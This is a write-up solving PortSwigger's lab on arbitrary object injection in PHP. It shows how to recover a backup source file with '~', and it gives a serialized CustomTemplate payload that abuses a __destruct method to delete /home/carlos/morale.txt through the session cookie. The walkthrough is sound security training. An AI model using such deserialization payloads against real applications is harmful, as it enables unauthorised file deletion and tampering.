


# Lab: Arbitrary object injection in PHP

**Link**: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php

**Solution**:

If we open the source code of any page, we will find a comment for path of php file

<p align="center" width="100%">
  
</p>

If we navigate to it, it returns nothing

<p align="center" width="100%">
  
</p>

We will try add `~` mark after file name

- This mark is added to save unsaved changes in text editor for later used/opening

We will see the source code of the page

<p align="center" width="100%">
  
</p>

```bash
function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
```

the above function is deleted the file in the `lock_file_path` variable 

So, we will create a serialized object of this class and put the file we want to be deleted in this variable `lock_file_path` to be like the following

```bash
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Encode it as base64 and replace it in the request session

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>
